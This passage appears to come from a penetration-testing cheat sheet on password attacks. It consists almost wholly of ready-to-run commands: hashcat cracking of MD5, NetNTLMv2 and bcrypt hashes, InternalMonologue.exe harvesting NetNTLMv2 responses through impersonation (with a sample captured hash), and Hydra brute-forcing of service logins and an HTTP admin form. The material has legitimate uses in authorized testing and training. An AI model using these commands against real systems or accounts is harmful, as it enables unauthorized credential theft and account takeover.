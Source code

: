 ```c
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout
```

##### Generate NetNLTMv2 with internalMonologue and crack with hashcat

```c
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
```

###### Result

```c
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000
```

##### Crack with hashcat

```c
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

##### Rules

> https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule

##### Cracking with OneRuleToRuleThemAll.rule

```c
hashcat -m 3200 hash.txt -r /PATH/TO/FILE.rule
```

#### Hydra

```c
hydra <RHOST> -l <USERNAME> -p <PASSWORD> <PROTOCOL>
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> <PROTOCOL>
hydra -C /PATH/TO/WORDLIST/<FILE> <RHOST> ftp
```

```c
export HYDRA_PROXY=connect://127.0.0.1:8080
unset HYDRA_PROXY
```

```c
hydra -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
```
